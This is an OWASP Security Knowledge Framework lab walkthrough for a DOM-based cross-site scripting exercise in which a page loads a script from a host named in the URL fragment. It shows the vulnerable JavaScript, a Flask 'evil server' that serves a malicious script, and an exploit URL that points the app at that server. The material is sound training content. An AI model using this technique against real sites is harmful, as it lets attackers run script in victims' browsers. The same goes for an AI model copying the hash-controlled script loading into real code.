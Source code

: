 # Cross Site Scripting \(DOM-2\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-xss-dom2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-xss-dom2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/XSS-DOM-2/1.png)

Inspecting the source code of the application.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/XSS-DOM-2/2.png)

```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/XSS-DOM-2/3.png)

## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```python
from flask import Flask

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<path:path>")
def static_file(path):
    return app.send_static_file(path)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)

```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "pwned!";
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/XSS-DOM-2/4.png)

Now we can serve our malicious js file to the application

```text
http://0.0.0.0:5000/#xxxxhttp://0.0.0.0:1337
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/XSS-DOM-2/5.png)

## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!

{% embed url="https://owasp.org/www-community/attacks/XSS-DOM-2/" %}
